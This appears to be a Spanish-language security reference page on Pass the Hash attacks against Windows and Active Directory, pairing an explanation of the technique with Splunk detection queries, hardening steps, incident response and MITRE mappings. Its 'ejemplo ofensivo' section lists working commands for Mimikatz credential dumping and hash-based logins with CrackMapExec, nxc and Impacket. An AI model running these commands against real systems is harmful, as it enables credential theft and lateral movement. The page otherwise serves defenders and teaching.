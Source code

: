 # 🔑 Pass the Hash - Autenticación con hashes NTLM sin contraseñas

---

## 📝 ¿Qué es Pass the Hash y por qué es tan crítico?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| Técnica que permite a un atacante autenticarse en sistemas remotos usando hashes NTLM sin conocer la contraseña en texto plano. Aprovecha el protocolo NTLM que acepta hashes como credencial válida. |
| **Uso**       | Herramientas como Mimikatz, CrackMapExec, nxc, Impacket y PsExec utilizan esta técnica para movimiento lateral y escalada de privilegios en entornos Windows/Active Directory. |

---

## 🛠️ ¿Cómo funciona el ataque? (paso a paso real)

| Fase             | Acción                                                                                                          |
|------------------|-----------------------------------------------------------------------------------------------------------------|
| **Extracción**   | El atacante obtiene hashes NTLM desde memoria (LSASS), archivos SAM, NTDS.dit o mediante ataques de volcado.   |
| **Validación**   | Verifica que los hashes extraídos sean válidos y funcionales para autenticación.                                |
| **Autenticación**| Utiliza el hash NTLM directamente en el protocolo NTLM para autenticarse sin descifrar la contraseña.          |
| **Movimiento**   | Se conecta a sistemas remotos usando los hashes para ejecutar comandos, acceder a recursos o establecer sesiones.|
| **Persistencia** | Mantiene acceso usando las credenciales hash en múltiples sistemas de la red.                                   |

---

## 💻 Ejemplo ofensivo (comandos reales)

```bash
# Extracción de hashes con Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Pass the Hash con CrackMapExec
crackmapexec smb 192.168.1.10 -u administrador -H aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# Pass the Hash con nxc
nxc smb 192.168.1.10 -u administrador -H aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c -x whoami

# Pass the Hash con Impacket
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c administrador@192.168.1.10

# Pass the Hash para WMI
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c administrador@192.168.1.10

# Secretsdump para extraer más hashes
secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c administrador@192.168.1.10
```

---

## 📊 Detección en Splunk

| Evento clave | Descripción                                                                                                   |
|--------------|--------------------------------------------------------------------------------------------------------------|
| **4624**     | Inicio de sesión exitoso con tipo 3 (red) usando autenticación NTLM.                                        |
| **4776**     | Autenticación NTLM exitosa con misma cuenta desde múltiples IPs.                                             |
| **4768/4769**| Solicitudes Kerberos anómalas cuando se mezclan con NTLM (posible fallback).                                 |
| **4648**     | Inicio de sesión con credenciales explícitas (runas/pass the hash).                                          |
| **4625**     | Fallos de autenticación previos que preceden a autenticaciones exitosas sospechosas.                         |
| **5140**     | Acceso a recursos compartidos administrativos tras autenticación con hash.                                    |
| **4634**     | Cierre de sesión tras actividades de movimiento lateral.                                                     |

### Query Splunk esencial

```splunk
index=dc_logs EventCode=4624
| search Logon_Type=3 Authentication_Package=NTLM
| stats count dc(Source_Network_Address) as IPs_unicas by Account_Name, _time
| where IPs_unicas > 3
| sort -count
```

### Query para detectar patrones Pass the Hash

```splunk
index=dc_logs (EventCode=4624 OR EventCode=4776)
| search Authentication_Package=NTLM
| bin _time span=5m
| stats count dc(ComputerName) as sistemas_accedidos, list(ComputerName) as sistemas by Account_Name, _time
| where sistemas_accedidos >= 3
| table _time, Account_Name, sistemas_accedidos, sistemas
```

### Query para correlacionar extracción y uso de hashes

```splunk
index=security_logs (EventCode=4624 OR EventCode=4648 OR EventCode=10)
| search (Process_Name="*mimikatz*" OR Process_Name="*lsass*" OR Logon_Type=9)
| stats list(EventCode) as eventos, min(_time) as inicio, max(_time) as fin by Account_Name, ComputerName
| table inicio, fin, Account_Name, ComputerName, eventos
```

---

## 🦾 Hardening y mitigación

| Medida                                  | Descripción                                                                                      |
|------------------------------------------|-------------------------------------------------------------------------------------------------|
| **Credential Guard**                     | Activa Windows Defender Credential Guard para proteger credenciales en memoria.                 |
| **LSASS Protection**                     | Habilita LSA Protection para prevenir acceso no autorizado al proceso LSASS.                    |
| **Privileged Access Workstations (PAW)**| Utiliza estaciones de trabajo dedicadas para administradores privilegiados.                     |
| **Kerberos Authentication**              | Fuerza el uso de Kerberos sobre NTLM siempre que sea posible.                                   |
| **Network Level Authentication**         | Requiere autenticación antes de establecer sesiones RDP completas.                              |
| **Restricted Admin Mode**                | Activa modo administrador restringido para RDP y PowerShell remoto.                             |
| **Account Tiering**                      | Implementa modelo de niveles para cuentas administrativas (Tier 0, 1, 2).                       |
| **Regular Password Changes**             | Cambia contraseñas de cuentas privilegiadas regularmente para invalidar hashes.                  |

---

## 🚨 Respuesta ante incidentes

1. **Aísla inmediatamente** las cuentas sospechosas que muestran patrones de Pass the Hash.
2. **Cambia contraseñas** de todas las cuentas comprometidas para invalidar los hashes.
3. **Identifica el vector inicial** de compromiso (cómo se extrajeron los hashes).
4. **Mapea el movimiento lateral** correlacionando eventos 4624/4776 en múltiples sistemas.
5. **Busca persistencia** creada durante el período de compromiso activo.
6. **Reinicia sistemas comprometidos** para limpiar credenciales en memoria.
7. **Implementa monitoreo adicional** en sistemas afectados por 30-60 días.

---

## 💡 Soluciones innovadoras

- **Honeyhashes:** Crea cuentas trampa con hashes monitoreados que alerten su uso.
- **Memory Analysis Continuous:** Monitoreo continuo de memoria LSASS para detectar extracción de credenciales.
- **Behavioral Analytics:** Detecta patrones anómalos de autenticación basados en ubicación, horario y frecuencia.
- **Hash Rotation:** Rotación automática de hashes de cuentas de servicio cada 24-48 horas.
- **Lateral Movement Traps:** Sistemas trampa que alertan ante intentos de acceso con credenciales robadas.

---

## ⚡ CVEs y técnicas MITRE relevantes

- **T1550.002 (Pass the Hash):** Uso de hashes NTLM para autenticación
- **T1003.001 (LSASS Memory):** Extracción de credenciales desde memoria LSASS
- **T1021.002 (SMB/Windows Admin Shares):** Movimiento lateral usando hashes
- **CVE-2022-26925:** Vulnerabilidad LSA que facilita extracción de credenciales
- **CVE-2021-42278/42287 (sAMAccountName spoofing):** Escalada que puede facilitar Pass the Hash

---

## 📚 Referencias

- [Mimikatz - Credential Extraction](https://github.com/gentilkiwi/mimikatz)
- [CrackMapExec Pass the Hash](https://github.com/Porchetta-Industries/CrackMapExec)
- [Impacket Examples](https://github.com/fortra/impacket)
- [Microsoft - Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/)
- [NIST - Pass the Hash Mitigation](https://www.nist.gov/cybersecurity)
- [MITRE ATT&CK - T1550.002](https://attack.mitre.org/techniques/T1550/002/)